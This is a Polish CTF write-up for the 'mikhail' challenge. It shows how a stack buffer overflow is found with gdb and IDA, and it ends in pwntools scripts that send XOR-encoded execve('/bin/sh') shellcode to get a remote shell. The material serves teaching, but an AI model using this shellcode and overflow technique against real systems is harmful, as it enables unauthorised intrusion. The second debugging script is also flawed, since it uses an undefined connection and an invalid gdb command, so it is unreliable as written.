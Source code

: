 # mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

Programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje z pod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.
Ale tutaj znowu nie ma sprawdzania czy do bufora nie kopiujemy zbyt dużo danych i znowu mamy tutaj podatność buffer overflow.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać kod maszynowy w tablicy znaków `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki (ja użyłam do tego programu `IDA Pro`) można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na story:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie


Włączmy binarke w gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE. Wtedy adresy które są pokazywane przez disasembler będą pod adresem o `0x555555554000` większym. 


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini):
![a](imgs/gdb_beginning.png)

![b](imgs/rax_red.png)

Powyżej widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.

![c](imgs/returning_from_foo_red.png)

Powyżej widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:

![p1](imgs/p1.png)
Na powyższym obrazku widzimy że adres bufora `story` jest wpisywany tam gdzie jest adres powrotu z funkcji `foo`.

![p2](imgs/p2.png)

Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób uruchamiane są zadania kategori CTF na serwerach które trzeba zpwnować

Pozostało nam jeszcze tylko wstawienie shellcodu do `story` (musimy go jeszcze zxorować z bajtami które są w `password`, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu `execve("/bin/sh",0,0)` lub podobnego który podmieni nam aktywny proces na `/bin/sh`. Shellcody możemy znaleźć np. na exploit-db.com, wygenerować metasploitem lub użyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('./story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb.

## Przydatne polecenia gdb 

- `b` - ustawiamy breakpoint
- `c` / `continue` - kontynuujemy wykonywanie programu
- `r` / `run` - uruchamiamy program od początku